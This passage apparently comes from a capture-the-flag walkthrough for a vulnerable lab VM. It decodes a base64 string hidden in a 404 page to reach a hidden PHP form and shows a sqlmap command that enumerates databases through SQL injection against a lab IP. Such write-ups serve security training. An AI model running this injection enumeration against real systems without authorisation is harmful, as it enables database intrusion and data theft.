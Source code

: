 ###HTTP Enumeration

Viewing any 404 page rendered: 

![base64 image](/img/blog/lotr/base64-src.png) 

Inspection of the page source revealed a base64 encoded string, encoded within
another string: 

{% highlight bash %} 
[root:~]# echo "THprM09ETTBOVEl4TUM5cGJtUmxlQzV3YUhBPSBDbG9zZXIh" | base64 -d
Lzk3ODM0NTIxMC9pbmRleC5waHA= Closer!#
[root:~]# echo "Lzk3ODM0NTIxMC9pbmRleC5waHA=" | base64 -d
/978345210/index.php#

{% endhighlight %}

The above URL exposed a web form, vulnerable to SQL injection. 

## SQLMAP 

Thw following SQLMap commands were leveraged during the SQL enumeration and SQL
injection database dumping. 

### SQLMap Enumerate Databases 

{% highlight bash %}
# sqlmap -o -u http://192.168.30.140:1337/978345210/index.php --forms --dbs
{% endhighlight %}  
